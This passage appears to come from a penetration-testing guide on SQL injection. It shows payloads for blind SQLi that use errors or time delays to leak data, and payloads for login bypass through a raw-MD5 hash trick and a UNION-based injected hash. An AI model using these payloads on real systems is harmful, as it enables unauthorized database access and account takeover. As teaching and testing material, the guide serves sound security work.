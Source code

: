 

```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```

## Exploiting Error Blind SQLi <a href="#exploiting-error-blind-sqli" id="exploiting-error-blind-sqli"></a>

This is the **same case as before** but instead of distinguish between a true/false response from the query you can **distinguish between** an **error** in the SQL query or not (maybe because the HTTP server crashes). Therefore, in this case you can force an SQLerror each time you guess correctly the char:



```sql
AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- -
```

## Exploiting Time-Based SQLi <a href="#exploiting-time-based-sqli" id="exploiting-time-based-sqli"></a>

In this case there **isn't** any way to **distinguish** the **response** of the query based on the context of the page. But, you can make the page **take longer to load** if the guessed character is correct. We have already saw this technique in use before in order to [confirm a SQLi vuln](https://book.hacktricks.xyz/pentesting-web/sql-injection#confirming-with-timing).



```sql
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```

## [Login bypass List](login-bypass-list.md)

## Raw hash authentication Bypass <a href="#raw-hash-authentication-bypass" id="raw-hash-authentication-bypass"></a>

```sql
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

This query showcases a vulnerability when MD5 is used with true for raw output in authentication checks, making the system susceptible to SQL injection. Attackers can exploit this by crafting inputs that, when hashed, produce unexpected SQL command parts, leading to unauthorized access.

```sql
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```

#### Injected hash authentication Bypass <a href="#injected-hash-authentication-bypass" id="injected-hash-authentication-bypass"></a>

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```
